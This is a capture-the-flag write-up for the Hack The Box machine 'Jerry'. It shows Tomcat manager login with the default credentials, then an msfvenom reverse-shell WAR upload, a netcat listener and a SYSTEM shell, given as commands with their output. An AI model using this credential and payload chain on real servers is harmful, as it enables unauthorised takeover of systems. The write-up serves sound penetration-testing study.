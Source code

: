 # Jerry-HTB
Jerry is a Windows machine that is rated as easy. This box is running Apache Tomcat and its configured with weak credentials.
# Recon
We first start by runing nmap scan on the machine.
```
root@kali:~/Desktop# nmap -sC -sV 10.10.10.95
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-08 11:43 EDT
Nmap scan report for 10.10.10.95
Host is up (0.028s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.15 seconds
```
If we go to ```/manager``` we can see that we need to login, so I tried some of Tomcat default credentials and I was able to login using this ```tomcat:s3cret```.

![image1](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Jerry/images/1.png)

We can upload a WAR file and get a reverse shell:

![image2](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Jerry/images/2.png)

# Flags
First let's generate the WAR file:
```
root@kali:~/Desktop# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4444 -f war > shell.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of war file: 52213 bytes
```
And now we only need to find what is the jsp page so we can run the reverse shell:
```
root@kali:~/Desktop# jar -ft shell.war 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
bitkpnkilma.jsp
```
So it's located at ```bitkpnkilma.jsp```. If we go to http://10.10.10.95:8080/shell/bitkpnkilma.jsp . You should get your reverse shell:
```
root@kali:~/Desktop# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
User and Root Flag:
```
C:\Users\Administrator\Desktop\flags>type 2*
type 2*

2 for the price of 1.txt


user.txt
7004dbce...875f26ebd00

root.txt
04a8b36e1...67e772fe90e
```
Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
